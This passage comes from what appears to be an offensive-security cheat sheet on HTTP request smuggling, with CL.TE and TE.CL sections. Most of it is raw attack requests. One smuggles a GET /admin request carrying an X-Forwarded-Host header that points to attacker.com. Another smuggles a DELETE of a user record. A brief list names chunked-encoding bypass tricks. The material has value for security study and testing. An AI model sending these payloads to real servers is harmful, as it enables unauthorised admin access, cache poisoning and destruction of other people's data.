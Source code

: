 #### Advanced CL.TE Attack
```http
POST /login HTTP/1.1
Host: target.com
Content-Length: 189
Transfer-Encoding: chunked
Content-Type: application/x-www-form-urlencoded

3e
return_to=https%3A%2F%2Ftarget.com%2Fadmin
0

GET /admin HTTP/1.1
Host: target.com
X-Forwarded-Host: attacker.com
Content-Length: 10

x=
```

### 2. CL.TE Bypass Techniques
- **Chunked Encoding**: Use chunked encoding to bypass CL
- **Malformed Chunks**: Send malformed chunk sizes
- **Zero-Length Chunks**: Use zero-length chunks
- **Invalid Chunk Data**: Send invalid chunk data

---

## TE.CL Vulnerabilities

### 1. Transfer-Encoding vs Content-Length
**Frontend**: Uses Transfer-Encoding (TE)
**Backend**: Uses Content-Length (CL)

#### Basic TE.CL Attack
```http
POST / HTTP/1.1
Host: target.com
Content-Length: 3
Transfer-Encoding: chunked

3
abc
0

SMUGGLED
```

#### Advanced TE.CL Attack
```http
POST /api/users HTTP/1.1
Host: target.com
Transfer-Encoding: chunked
Content-Length: 3

3
abc
0

DELETE /api/users/123 HTTP/1.1
Host: target.com
Content-Length: 0

```